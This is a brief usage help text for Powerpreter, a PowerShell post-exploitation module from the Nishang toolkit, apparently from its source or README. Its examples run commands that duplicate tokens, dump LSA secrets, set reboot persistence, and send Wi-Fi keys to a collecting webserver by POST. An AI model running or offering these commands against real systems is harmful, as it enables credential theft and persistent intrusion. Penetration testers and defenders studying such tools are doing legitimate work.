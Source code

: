 #####Powerpreter is a script module which makes it useful in scenarios like drive-by-download, document attachments, webshells etc. where one may like to pull all the functionality in Nishang in a single file or where deployment is not easy to do. Powerpreter has persistence capabilities too. See examples for help in using it.

#####Examples

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1

PS> Get-Command -Module powerpreter

The first command imports the module in current powershell session.

The second command lists all the functions available with powerpreter.

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1; Enable-DuplicateToken; Get-LSASecret

Use above command to import powerpreter in current powershell session and execute the two functions.

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1; Persistence

Use above for reboot persistence

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1

PS > Get-WLAN-Keys | Do-Exfiltration -ExfilOption Webserver -URL http://192.168.254.183/catchpost.php

Use above for exfiltration to a webserver which logs POST requests.
